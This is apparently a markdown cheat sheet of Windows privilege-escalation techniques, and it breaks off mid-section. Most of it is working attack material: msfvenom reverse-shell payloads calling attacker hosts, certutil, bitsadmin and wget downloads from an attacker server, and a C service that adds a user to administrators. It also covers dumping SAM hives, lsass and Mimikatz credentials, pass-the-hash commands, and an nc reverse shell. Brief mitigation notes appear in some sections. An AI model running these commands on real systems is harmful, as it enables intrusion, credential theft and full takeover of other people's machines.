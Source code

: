 #####################################
Windows Privilege Escalation Examples
#####################################

<details>
<summary>Weak Service Permissions</summary>
 <br> 
========================
 
In Windows, services running as LocalSystem (highest privilege) with non-default or writable executable paths and weak permissions can be exploited for privilege escalation. This document provides detection, exploitation, and remediation steps.

🔍 1. Enumerate Services Running as LocalSystem with Non-Standard Paths
These services might use custom paths (e.g., C:\Users\Public\svc.exe) instead of the protected default (C:\Windows\System32).

✅ PowerShell:

    Get-WmiObject Win32_Service | Where-Object {
    $_.StartName -eq "LocalSystem" -and
    $_.PathName -notlike "C:\Windows\System32*"
    } | Select-Object Name, StartName, PathName

    
✅ WMIC:
cmd

    wmic service get name,startname,pathname | findstr /i "LocalSystem" | findstr /v /i "C:\\Windows\\System32"
<img width="1016" height="237" alt="image" src="https://github.com/user-attachments/assets/b58cd5a7-6d2d-4bba-b200-baa7cc66faee" />
🔐 2. Check Permissions on Service Configuration
Use AccessChk to determine whether a user can start, stop, configure, or modify a service.

✅ Command:
cmd

    .\accesschk64.exe /accepteula -uwcqv user servicename
Look for permissions like:

Permission	Meaning
SERVICE_ALL_ACCESS	Full control
SERVICE_CHANGE_CONFIG	Can change service binary path
WRITE_DAC / WRITE_OWNER	Can escalate to full control
GENERIC_WRITE / GENERIC_ALL	Equivalent to full control
<img width="939" height="407" alt="image" src="https://github.com/user-attachments/assets/e4ea7ead-9a28-4752-9e52-74c28bc09e8b" />

📂 3. Identify Writable Service Executables
✅ Export Executable Paths:

    for /f "tokens=2 delims='='" %a in ('wmic service list full ^| find /i "pathname" ^| find /v /i "system32"') do @echo %a >> C:\Windows\Temp\services.txt
✅ If wmic is not available:
cmd

    sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
    FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
✅ Check Permissions:
cmd

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do accesschk.exe /accepteula -qv "%a" >> accesschk.txt
Or use icacls/cacls:

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do icacls "%a" >> icacls.txt
Look for:

Symbol	Meaning
(F)	Full Access
(M)	Modify Access
(W)	Write Access
(WDAC)	Write DACL
(WO)	Write Owner

⚙️ 4. Exploitation Steps
✅ 4.1 Replace the Service Executable
Generate a reverse shell payload (Metasploit):

bash

    msfvenom -p windows/powershell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe -o reverse_priv.exe
Host it:

bash

    python3 -m http.server 8999
Transfer to target:

powershell

    wget http://<attacker_ip>:8999/reverse_priv.exe -o reverse_priv.exe
Overwrite service binary:

powershell

    copy reverse_priv.exe "C:\Path\To\Service.exe"
✅ 4.2 Start the Service
c

    sc start <service>
Or:

cmd

    net start <service>
⚡ 5. Writable Service Object Exploitation
✅ Find Writable Service Objects
cmd

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *
✅ Update Service Binary Path
cmd

    sc config <service> binPath= "C:\Path\To\reverse_priv.exe"
Remove dependencies if blocking:

cmd

    sc config <service> depend= ""
Change service start mode to manual:

cmd

    sc config <service> start= demand
Update service to run as SYSTEM:

c

    sc config <service> obj= ".\LocalSystem" password= ""
✅ Start/Stop Service:
cmd

    sc stop <service>
sc start <service>
Or:

cmd

    net stop <service>
    net start <service>
🧪 6. Validate Exploitability
powershell

    Get-WmiObject Win32_Service -Filter "Name='<service>'" |Select-Object Name, DisplayName, StartMode, State, StartName, PathName
<img width="1064" height="161" alt="image" src="https://github.com/user-attachments/assets/6fdbbea7-d56e-4cb4-80a3-4f9016f995c8" />
    
🤖 7. Automated Enumeration
✅ SharpUp
Use SharpUp.exe for automated privilege escalation checks.

cmd

    SharpUp.exe --services
    or: SharpUp.exe audit
 <img width="974" height="482" alt="image" src="https://github.com/user-attachments/assets/b36466e1-923a-4ddb-8188-bcfb99ac4c76" />
   
✅ Summary of Exploit Steps
Step	Description
🔍 1	Find services running as LocalSystem with writable paths
🔐 2	Check if current user can change or control the service
💣 3	Replace binary with malicious payload
▶️ 4	Restart or trigger the service to execute payload
⚡ 5	Get SYSTEM-level shell

🔐 Remediation Checklist
✅ Always install services in C:\Windows\System32

✅ Set tight permissions using sc sdset or GPO

✅ Regularly audit services using:

 Sysinternals AccessChk

 PowerUp / SharpUp

✅ Enable AppLocker / Software Restriction Policies

✅ Monitor service creation/modification with Sysmon

</details>
<details>
<summary>Weak Registry Permissions</summary>
 <br> 
  ============================

Windows services are configured in the registry under HKLM\SYSTEM\CurrentControlSet\Services. If a non-privileged user has write or full control over a service's registry key, they can change critical values like ImagePath — allowing execution of arbitrary binaries with SYSTEM privileges when the service is started.

🕵️ Step 1: Detect Weak Registry Permissions
🔎 Using WinPEAS (Automated)
Run winPEASany.exe:

cmd

    .\winPEASany.exe all
Look for entries under:
[Services - Registry Permissions]
These reveal services where the current user has excessive permissions.

<img width="1050" height="103" alt="image" src="https://github.com/user-attachments/assets/a5f5b04c-49d7-469b-84b8-35af1f32e7cd" />
🔎 Using PowerShell (Manual Check)
Check a specific service like regsvc:

powershell

    Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
Look for:

Access : NT AUTHORITY\INTERACTIVE Allow  FullControl
✅ If FullControl or Write access is granted to Everyone, INTERACTIVE, or the current user — it's vulnerable.
<img width="1031" height="559" alt="image" src="https://github.com/user-attachments/assets/f7944279-ac80-4103-bf83-6bc320210f30" />

🐚 Step 2: (Optional) Generate Reverse Shell Payload
Generate a payload on your attacker (Kali) machine:

bash

    msfvenom -p windows/powershell_reverse_tcp LHOST=<attacker-ip> LPORT=1234 -f exe -o reverse_shell.exe
Or write a custom C service:
    #include <windows.h>
    #include <stdio.h>
    
    #define SLEEP_TIME 5000
    
    SERVICE_STATUS ServiceStatus; 
    SERVICE_STATUS_HANDLE hStatus; 
     
    void ServiceMain(int argc, char** argv); 
    void ControlHandler(DWORD request); 
    
    //add the payload here
    int Run() 
    { 
        system("cmd.exe /k net localgroup administrators user /add");
        return 0; 
    } 
    
    int main() 
    { 
        SERVICE_TABLE_ENTRY ServiceTable[2];
        ServiceTable[0].lpServiceName = "MyService";
        ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;
    
        ServiceTable[1].lpServiceName = NULL;
        ServiceTable[1].lpServiceProc = NULL;
     
        StartServiceCtrlDispatcher(ServiceTable);  
        return 0;
    }
    
    void ServiceMain(int argc, char** argv) 
    { 
        ServiceStatus.dwServiceType        = SERVICE_WIN32; 
        ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
        ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
        ServiceStatus.dwWin32ExitCode      = 0; 
        ServiceStatus.dwServiceSpecificExitCode = 0; 
        ServiceStatus.dwCheckPoint         = 0; 
        ServiceStatus.dwWaitHint           = 0; 
     
        hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
        Run(); 
        
        ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
        SetServiceStatus (hStatus, &ServiceStatus);
     
        while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
        {
    		Sleep(SLEEP_TIME);
        }
        return; 
    }
    
    void ControlHandler(DWORD request) 
    { 
        switch(request) 
        { 
            case SERVICE_CONTROL_STOP: 
    			ServiceStatus.dwWin32ExitCode = 0; 
                ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
                SetServiceStatus (hStatus, &ServiceStatus);
                return; 
     
            case SERVICE_CONTROL_SHUTDOWN: 
                ServiceStatus.dwWin32ExitCode = 0; 
                ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
                SetServiceStatus (hStatus, &ServiceStatus);
                return; 
            
            default:
                break;
        } 
        SetServiceStatus (hStatus,  &ServiceStatus);
        return; 
    } 
**Edit the C code**:

Change the `system()` call in `windows_service.c` to the desired command. For example:

    system("cmd.exe /k net localgroup administrators user /add");

<img width="784" height="573" alt="image" src="https://github.com/user-attachments/assets/7758c770-cd18-4aa5-8a1a-41f2d2817b37" />
Compile it:

bash

    x86_64-w64-mingw32-gcc windows_service.c -o x.exe
  <img width="641" height="188" alt="image" src="https://github.com/user-attachments/assets/22c39aeb-deda-4f41-9e5c-e33d649f8e0b" />   
📤 Step 3: Transfer the Payload to the Target
From the target system (Windows), run:

cmd

    certutil -urlcache -split -f http://<attacker-ip>:8999/x.exe x.exe
<img width="692" height="120" alt="image" src="https://github.com/user-attachments/assets/0f93c4dd-9e1d-4341-a547-3642530616a6" />

   
🧠 You can also use Python HTTP server or impacket-smbserver to serve the file.

📝 Step 4: Modify the Service Registry Key
Replace the service binary with your payload by editing ImagePath:

cmd

    reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\temp\x.exe /f
✅ REG_EXPAND_SZ is used for variables like %SystemRoot% but works with hardcoded paths too.

🚀 Step 5: Start the Hijacked Service
Trigger the service manually:

cmd

    sc start regsvc
or

cmd

    net start regsvc
Your payload (x.exe) now executes as SYSTEM.

✅ Step 6: Confirm SYSTEM Privileges
If your payload added a user to the admin group, verify:

cmd

    net localgroup administrators
You should see the new user added successfully.
<img width="778" height="278" alt="image" src="https://github.com/user-attachments/assets/35626fa9-491d-4617-8375-8a17561f609a" />

📉 Cleanup (Optional)
Restore the original ImagePath (if known).

Delete your payload:

cmd

    del C:\temp\x.exe
Remove the user (if created):

cmd

    net user <user> /del
🛡️ Detection & Mitigation
Control	Description
🔍 Registry Monitoring	Use tools like Sysmon (Event ID 13) to track changes to HKLM\SYSTEM\CurrentControlSet\Services\*
🛡️ ACL Auditing	Regularly audit service permissions: check for users/groups with Write or FullControl
🚫 Least Privilege	Ensure non-admin users don’t have access to service registry keys
🔐 Group Policy	Enforce secure registry ACLs through GPO
🔁 Service Hardening	Reconfigure vulnerable services or replace legacy components

📝 Summary Cheat Sheet
Action	Command
Detect vuln services	Get-Acl or winPEASany.exe
Set malicious ImagePath	reg add ... /v ImagePath ...
Trigger service	sc start <svc>
Check admin status	net localgroup administrators 
</details>
<details>
<summary>SeBackupPrivilege</summary>
 <br> 
 ============================
 
🔑 What is SeBackupPrivilege?
SeBackupPrivilege is a special Windows permission intended for backup operations.

It allows a user to bypass file ACLs and read any file on the system — even highly sensitive ones like:

C:\Windows\System32\config\SAM

C:\Windows\System32\config\SYSTEM

Attackers can abuse this to extract password hashes and escalate privileges.

🔍 Step 1: Check for SeBackupPrivilege
After getting access (e.g., through Evil-WinRM), check assigned privileges:

powershell

    whoami /priv
   <img width="923" height="339" alt="image" src="https://github.com/user-attachments/assets/18ee9197-db13-4739-b7cf-69ffa64bdf96" />

✅ Look for SeBackupPrivilege in the output.

📁 Step 2: Dump Registry Hives
Create a Temp Directory and Dump SAM & SYSTEM
powershell

    cd C:\
    mkdir Temp
    reg save hklm\sam C:\Temp\sam
    reg save hklm\system C:\Temp\system
 <img width="766" height="416" alt="image" src="https://github.com/user-attachments/assets/5f011469-d495-42eb-8b76-fe2af58a191e" />
   
📥 Step 3: Transfer Files to Kali
Use Evil-WinRM's built-in download command:

powershell

    cd Temp
    download sam
    download system
 <img width="563" height="298" alt="image" src="https://github.com/user-attachments/assets/178f145f-cb49-4cb4-9f82-6e1e424d6658" />
   
🔓 Step 4: Extract Hashes on Kali
🐍 Option 1: Using PyPyKatz
bash

    pypykatz registry --sam sam system
✅ This will output NTLM hashes like:
<img width="1021" height="296" alt="image" src="https://github.com/user-attachments/assets/cf46c206-5e73-4c69-ba4b-3ab653fe5069" />


Administrator:500:aad3b435b51404eeaad3b435b51404ee:5e0375cf8e440aa58a809d57edd78996::
🧰 Option 2: Using Impacket’s secretsdump.py

    cd ~/impacket
    python3 -m venv impacket-env
    source impacket-env/bin/activate
    secretsdump.py -system /home/kali/system -sam /home/kali/sam LOCAL
 <img width="1056" height="320" alt="image" src="https://github.com/user-attachments/assets/9fa97eb3-93ba-496e-9418-ecb08ed1bb24" />
   
🚪 Step 5: Lateral Movement / Privilege Escalation
Use the extracted NTLM hash to pivot or escalate.

🛠️ Option 1: Evil-WinRM (Pass-the-Hash)

evil-winrm -i <target-ip> -u <domain\user> -H <NTLM-hash>
Example:

    evil-winrm -i 192.168.216.130 -u corp\administrator -H 5e0375cf8e440aa58a809d57edd78996
🛠️ Option 2: CrackMapExec

    crackmapexec smb <target-ip> -u Administrator -H <NTLM-hash>
🛠️ Option 3: PsExec (from Impacket)

    psexec.py Administrator@<target-ip> -hashes :<NTLM-hash>
🧑‍💼 Bonus: Enumerate Users (Optional)
If you need to look up domain users on a DC:

powershell

    Get-ADUser -Filter * | Select-Object Name, SamAccountName
Requires ActiveDirectory module, usually available on domain controllers.

🔚 Summary
Step	Action
1️⃣	Check if user has SeBackupPrivilege
2️⃣	Dump SAM and SYSTEM hives using reg save
3️⃣	Download files using evil-winrm
4️⃣	Extract hashes with pypykatz or secretsdump.py
5️⃣	Reuse hashes with Evil-WinRM, CrackMapExec, or PsExec for lateral movement or privilege escalation

 </details>

 <details>
<summary>SeImpersonatePrivilege</summary>
 <br>
  =====================
  
🔍 What is SeImpersonatePrivilege?
The SeImpersonatePrivilege is a powerful permission in Windows that allows a user to impersonate the security context of another user. This is typically used by services to act on behalf of a client.

✅ If a low-privileged user account has SeImpersonatePrivilege, it can often be exploited to escalate to SYSTEM or Administrator using various impersonation attacks.

🧠 Why is it dangerous?
This privilege allows attackers to impersonate privileged tokens (like SYSTEM or admin) when certain services or RPC endpoints allow it.

It is commonly exploited in local privilege escalation (LPE) scenarios.

🔍 Identifying SeImpersonatePrivilege
Run this on the target system (PowerShell):

powershell

    whoami /priv | findstr SeImpersonatePrivilege
If you see it as Enabled, you can likely proceed with known exploits.
<img width="1041" height="362" alt="image" src="https://github.com/user-attachments/assets/aeb520d9-af88-4719-b8cb-4707dcabfedb" />

⚙️ Exploitation Tools
🔧 1. PrintSpoofer
PrintSpoofer abuses the SeImpersonatePrivilege via the Print Spooler service to impersonate SYSTEM.

🧪 Steps:
Upload the executable to the target system:

powershell

    upload PrintSpoofer.exe
<img width="1064" height="178" alt="image" src="https://github.com/user-attachments/assets/7d0e6a51-a786-4ae1-85a7-c54c65220d4c" />
    
Run PrintSpoofer to add your user to the Administrators group:

powershell

    .\PrintSpoofer.exe -i -c "net localgroup Administrators <user-name> /add"
-i → impersonate token

-c → command to execute as SYSTEM
<img width="1025" height="77" alt="image" src="https://github.com/user-attachments/assets/fed9f6a6-9e19-4292-9e6d-03c5d0059f91" />

✅ Your user is now part of the Administrators group.

🔧 2. GodPotato
GodPotato is a modern implementation of the RottenPotatoNG/JuicyPotato concept, abusing COM/RPC misconfigurations and SeImpersonate privilege to execute commands as SYSTEM.

🧪 Steps:
Upload the GodPotato executable:

powershell

    upload GodPotato-NET4.exe
Execute the command to add your user to the Administrators group:

powershell

.\GodPotato-NET4.exe -cmd "cmd /c net localgroup Administrators r.andrews /add"
✅ Once executed successfully, the user is elevated.
<img width="1052" height="574" alt="image" src="https://github.com/user-attachments/assets/ef72d9f6-4d43-45c8-8f50-7cca73d7e933" />

✅ Confirming Privilege Escalation
You can now verify that your user has admin access:

powershell

whoami /groups
net user <user-name>
Or list protected directories:

powershell

dir C:\Users\Administrator\
📌 Notes:
These exploits work only locally and require SeImpersonatePrivilege.

These tools may trigger EDR/AV, so obfuscation or alternative binaries might be needed.

Not all Windows builds are vulnerable; ensure the Print Spooler or vulnerable COM servers are available.

🧰 Alternative Tools & Techniques
Tool	Description
JuicyPotato	Legacy COM exploit, works only on older versions
RoguePotato	Bypasses newer Windows protections
PrintSpoofer	Exploits Print Spooler to impersonate SYSTEM
GodPotato	Updated COM exploit using .NET

📚 References
https://github.com/itm4n/PrintSpoofer

https://github.com/BeichenDream/GodPotato

  </details>
  
<details>
<summary>Unquoted Service Pathss</summary>
 <br> 

================================

🔧 Windows Privilege Escalation – Unquoted Service Path Exploit
🧠 Concept Summary
When a Windows service is registered with an unquoted executable path and contains spaces, Windows attempts to locate the executable by parsing the path from left to right, trying each path fragment with .exe appended. If an attacker can write to any of these directories, they can drop a malicious executable and gain privilege escalation when the service is started.

📌 Prerequisites
Attacker has low-privileged shell (RDP, reverse shell, etc.)

One or more services have unquoted paths

Attacker has write permissions to any folder in the service's executable path

🔍 Step 1: Enumeration
✅ Using SharpUp (automated):
powershell

    .\SharpUp.exe auto
✅ Using winPEAS (automated):
powershell

    .\winPEASany.exe all
<img width="1063" height="472" alt="image" src="https://github.com/user-attachments/assets/87a483f6-856f-44ec-9811-6222e88f6b3e" />

✅ Manually with sc:
powershell

    sc qc <ServiceName>
# Example:
sc qc unquotedsvc
Look for output like:

<img width="1039" height="338" alt="image" src="https://github.com/user-attachments/assets/ffd807da-a68d-4d6b-910a-7959ebdfa778" />


BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\service.exe
⚠️ Notice the path is unquoted and contains spaces.

✅ Find all unquoted services in one command:
powershell

wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
🔍 Step 2: Check Write Permissions
✅ Use accesschk.exe (from Sysinternals):
powershell

    accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
🔎 Look for:
[RW] BUILTIN\Users
Meaning: any user can write in that directory.
<img width="992" height="159" alt="image" src="https://github.com/user-attachments/assets/0beb539f-c833-41eb-8ed0-882fb1b87533" />

🎯 Step 3: Exploitation
✅ Upload Reverse Shell Payload
powershell

    copy reverse_shell.exe "C:\Program Files\Unquoted Path Service\Common.exe"
⚠️ Name the payload according to where Windows would first look.
For path:
C:\Program Files\Unquoted Path Service\Common Files\service.exe
Windows may try:

C:\Program.exe

C:\Program Files.exe

C:\Program Files\Unquoted.exe

C:\Program Files\Unquoted Path.exe

C:\Program Files\Unquoted Path Service\Common.exe ← ✅ our injection point

Choose the earliest writable location in the path.

📞 Step 4: Start Listener (Kali)
bash

    nc -lvnp 4444
🚀 Step 5: Trigger the Service
powershell

    net start unquotedsvc
🧨 This starts the service and executes your malicious binary.
🎉 You now have a SYSTEM-level shell.
<img width="1064" height="321" alt="image" src="https://github.com/user-attachments/assets/27d6c468-3580-405f-b788-1725775f7e2b" />

🔐 Mitigation (Defender Notes)
Always quote service paths with spaces.

Restrict write permissions on system folders.

Use sc qc, GPO, or PowerShell auditing to periodically scan for misconfigurations.

✅ Checklist Summary
Task	Command/Tool
Enumerate Unquoted Paths	wmic, sc qc, SharpUp, winPEAS
Check Permissions	accesschk.exe
Upload Payload	copy reverse_shell.exe "Path"
Start Listener	nc -lvnp 4444
Start Service	net start <servicename>


</details>
<details>
<summary>Scheduled Task/Job</summary>
 <br> 
 =======================
 
Windows Task Scheduler allows users to schedule programs or scripts to run at specific times or system events. While this is a legitimate administrative feature, it can be abused by attackers for:

Privilege Escalation: If a scheduled task is executed with higher privileges, an attacker can inject or replace the associated executable to gain SYSTEM-level access.

Persistence: Scheduled tasks can ensure malware or shells re-execute after reboot or on a timed interval.

📌 Prerequisites
Low-privileged access to a Windows machine (e.g., via RDP or reverse shell).

Ability to read/write in directories where scheduled tasks point to executables.

OR permissions to create/modify tasks.

🔍 Step 1: Enumerate Scheduled Tasks
powershell

    schtasks /query /fo LIST /v
This lists all scheduled tasks in verbose format, including:

Task Name
Run As User
Executable Path
Schedule
Task State

📌 Look for:

Tasks run as NT AUTHORITY\SYSTEM

Executables located in user-writable paths (e.g., C:\Users\Public\, C:\ProgramData\, etc.)

🔥 Step 2: Create Malicious Executable (Reverse Shell)
Using MSFVenom to generate a reverse shell payload:

bash

    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.3 LPORT=8888 -f exe > shell.exe
Alternatively (⚙️ Alternative Payload Options):

Persistent Payload (Metasploit Meterpreter):

bash

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f exe > meterpreter.exe
Custom EXE (compiled C# or PowerShell script using MSBuild):

Use tools like MSBuild, donut, Nim, or C# executables.

🎯 Step 3: Inject Malicious Executable
Rename Original Executable (optional backup):

powershell

    ren file.exe file.bak
Download your payload to the same location:

powershell

    powershell -c "Invoke-WebRequest http://192.168.1.3/shell.exe -OutFile file.exe"
🔁 Alternate download methods:

certutil:

powershell

    certutil -urlcache -split -f http://192.168.1.3/shell.exe file.exe
bitsadmin:

powershell

    bitsadmin /transfer myDownloadJob /download /priority high http://192.168.1.3/shell.exe C:\Temp\file.exe
Confirm file is placed and matches original name.

📞 Step 4: Start Netcat Listener on Attacker Machine
bash

    nc -lvnp 8888
🕒 Step 5: Wait for the Scheduled Task to Trigger
On next trigger (e.g., boot time, time interval), your malicious file.exe is executed.

You receive a SYSTEM shell back.

🛡️ Detection & Monitoring
📌 View Task Scheduler Logs
Enable Event Log:

    Microsoft-Windows-TaskScheduler/Operational
Check via Event Viewer:

arduino

    Event ID 106: Task registered
    Event ID 200: Task started
    Event ID 201: Task completed
📌 Task Query for Investigation
powershell

    schtasks /query /fo LIST /v
📌 File System Monitoring
Use tools like:

🔍 Sysinternals Autoruns: Detects auto-starting entries, including scheduled tasks
Autoruns[https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns]

🔍 Process Explorer: Investigates running processes and their privileges
Process Explorer[https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer]

🔍 TCPView: Monitors live TCP/UDP connections
TCPView[https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview]

🔀 Alternative Exploitation Scenarios
Scenario	Description
Writable Executable Path	Replace task's binary if stored in a writable location (e.g., C:\Users\Public\App.exe)
Create New Task (if user has rights)	Use schtasks /create to create a task running as SYSTEM
DLL Hijacking via Scheduled Task	If the task binary loads unmanaged DLLs unsafely, inject your malicious DLL
Startup Triggers	Abuse AtLogon, OnStartup, Daily triggers for persistence
Via COM objects / PowerShell WMI	Create tasks silently using PowerShell:

powershell

    $action = New-ScheduledTaskAction -Execute "shell.exe"
    $trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "PersistTask" -User "SYSTEM"
🔐 Mitigation Techniques
Defense	Description
Least Privilege Principle	Restrict ability to create/modify tasks to admin users only
Monitor Task Changes	Enable auditing of TaskScheduler logs
Protect File System	Secure executable paths used by tasks
Application Whitelisting	Prevent unauthorized executables (e.g., via AppLocker)
Regular Review	Periodic manual or automated audits of scheduled tasks

✅ Summary
Task	Command/Tool
Enumerate Tasks	schtasks /query /fo LIST /v
Create Payload	msfvenom -p windows/shell_reverse_tcp ...
Upload Payload	powershell wget, certutil, bitsadmin
Setup Listener	nc -lvnp <port>
Detect/Investigate	Event Viewer, Autoruns, Process Explorer, Sysmon
</details>

<details>
<summary>Cleartext Passwords</summary>
 <br> 

===================
After gaining initial access to a Windows system, attackers often look for cleartext or weakly encrypted passwords stored in configuration files, registry keys, or leftover deployment scripts. These credentials can lead to privilege escalation or access to other systems in the network.

🔎 1. Search for Passwords in Files
✅ Search common keywords in common text files:
cmd

    findstr /si password *.txt *.xml *.ini
Searches for password (case-insensitive) in .txt, .xml, and .ini files.

✅ Search all files for keywords like password:
cmd

    findstr /spin "password" *.*
/s: recurse subdirectories
/p: skip binary files
/i: case-insensitive
/n: include line numbers

✅ Search for filenames suggesting stored credentials:

    dir /s *pass* == *cred* == *vnc* == *.config*
Looks for files that likely contain credentials in their names.

🔁 Alternative Filename Searches:

cmd

    dir /s /b *pass*.*  
    dir /s /b *cred*.*  
    dir /s /b *secret*.*  
    dir /s /b *.config  
    dir /s /b *.ini  
🗂️ 2. Check Known Files Containing Credentials
These files are often left over from Windows installations, third-party applications, or RDP/VNC tools:

cmd

    type C:\sysprep.inf
    type C:\sysprep\sysprep.xml
    type C:\unattend.xml
    type %WINDIR%\Panther\Unattend\Unattended.xml
    type %WINDIR%\Panther\Unattended.xml
💡 These often contain Local Admin credentials used during unattended Windows installations.

📂 3. Look for Remote Desktop & VNC Credentials

    dir C:\*vnc.ini /s /b
    dir C:\*ultravnc.ini /s /b
    dir C:\ /s /b | findstr /si *vnc.ini
VNC applications often store saved passwords in these .ini files (sometimes base64 or weak XOR encoding).

🔁 Alternatives:

tightvnc.ini
realvnc.ini
*.rdp files

🧬 4. Search the Windows Registry for Stored Passwords
🔍 Search entire registry hives:

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
🔎 Scans for REG_SZ values containing password.

🔎 Targeted Registry Keys

    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
Look for DefaultPassword, AutoAdminLogon, etc. Can be used to autologin as local admin.

cmd

    reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP"
SNMP community strings may be stored here (used for network equipment access).

    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
PuTTY session passwords, IPs, saved usernames – can be decoded from registry manually or using tools like putty-creds.

    reg query "HKLM\SOFTWARE\RealVNC\WinVNC4" /v password
RealVNC stores encrypted passwords here. Can be cracked with tools like vncpwd.

💡 Extra Tip: Use PowerShell for Enhanced File Search
powershell

    Get-ChildItem -Recurse -Include *.xml,*.txt,*.ini -Path C:\ | 
    Select-String -Pattern "password" -SimpleMatch
More efficient and readable than findstr, especially with large directories.

📂 Locations Often Containing Secrets
Path	Description
C:\Users\<user>\AppData\Roaming\	App data, often includes creds
C:\ProgramData\	Global config files
C:\inetpub\wwwroot\	Web apps with DB connection strings
.git directories	May include .env, configs, hardcoded secrets
.rdp files	Remote Desktop files may store credentials
web.config, app.config	.NET config files with plaintext DB strings

🧰 Helpful Tools (Optional)
🛠️ Windows Credential Editor (WCE) – Dumps stored credentials.
🔎 LaZagne – Searches for stored passwords from various apps.
🧪 Mimikatz – Extracts plaintext credentials, tokens, and hashes from memory.
🔐 Secretsdump.py (Impacket) – Dumps credentials remotely via SMB.
🧾 NirSoft tools – GUI tools for saved browser, RDP, Outlook, etc., passwords.

🔐 Detection & Defense
Defense Strategy	Description
File Auditing	Monitor access to sensitive config and .xml, .ini, .rdp files
Registry Auditing	Use Sysmon + Event Logging to monitor suspicious registry access
Credential Scanning Tools	Use tools like truffleHog, gitleaks, or Stealthbits to scan systems/repos for secrets
Least Privilege	Avoid storing passwords in plaintext where possible, and restrict read permissions
Credential Manager	Use Windows Credential Locker or LSA to securely store secrets

✅ Summary Table
Task	Command
Find password in text files	findstr /si password *.txt *.xml *.ini
Search all files for keywords	findstr /spin "password" *.*
Search filenames	dir /s *pass*.*
Check common files	type c:\unattend.xml, etc.
Check registry	reg query HKLM /f password /t REG_SZ /s
PuTTY sessions	reg query HKCU\Software\SimonTatham\PuTTY\Sessions
VNC keys	reg query HKLM\SOFTWARE\RealVNC\WinVNC4 /v password


</details>
<details>
<summary>Passing the Hash</summary>
 <br> 
================
Passing the Hash is a post-exploitation technique that allows an attacker to authenticate using NTLM hashes without knowing the actual plaintext password. Instead of cracking hashes, the attacker reuses them directly to gain remote or local access under another user’s (typically admin) context.

🔍 Step 1: Dump NTLM Password Hashes
To perform PtH, you first need access to NTLM hashes. These can be obtained using credential-dumping tools:

✅ Common Hash Dumping Tools
cmd

    wce32.exe -w
    wce64.exe -w
    fgdump.exe
🧰 Alternative Hash Dumpers:

mimikatz.exe – Powerful credential extraction tool:

powershell

    sekurlsa::logonpasswords
lsass.dmp with secretsdump.py:

bash

    procdump64.exe -ma lsass.exe lsass.dmp
    secretsdump.py -system SYSTEM -security SECURITY -sam SAM LOCAL
LaZagne – Extracts saved creds from many apps

🌐 Passing the Hash – Remote Execution
Once you have an NTLM hash, you can use it to remotely authenticate and execute commands on other systems.

✅ Using pth-winexe
bash

    pth-winexe -U <domain>/<username>%<NTLM_hash> //<target-ip> cmd
🚩 Use Administrator or other privileged accounts for best results.

📌 Target Hostname Instead of IP

Some systems may require NetBIOS name resolution:

bash

    pth-winexe -U <domain>/<username>%<hash> //<hostname> cmd
🛠️ If hostname doesn't resolve, edit /etc/hosts:

php-template

    <target-ip>  <hostname>
✅ Using Environment Variable SMBHASH (Alternate Method)
bash

    export SMBHASH=<LM_hash>:<NTLM_hash>
    pth-winexe -U <domain>/<username>% //<target-ip> cmd
Useful if only one hash type is available (LM or NTLM).

🧠 Tip: If LM hash is not used, you can leave it as 00000000000000000000000000000000

✅ Using impacket's wmiexec.py or psexec.py
bash

    psexec.py -hashes :<NTLM_hash> <domain>/<user>@<ip>
    wmiexec.py -hashes :<NTLM_hash> <domain>/<user>@<ip>
🔁 Use -k or -no-pass flags depending on your setup.

🖥️ Passing the Hash – Local Execution
In some cases, you can use the NTLM hash locally on the same machine where the hash was dumped to escalate privileges.

✅ Using runas (Custom Build for PtH)
⚠️ Windows' built-in runas.exe does not support PtH natively. This method works only with modified or patched versions (e.g., via PowerShell Empire or tools like RunasCs).

cmd

    runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
🧠 Note: You may need SeTcbPrivilege or SYSTEM-level context to impersonate other users with hashes locally.

✅ Using PowerShell (via Secure Strings)
powershell

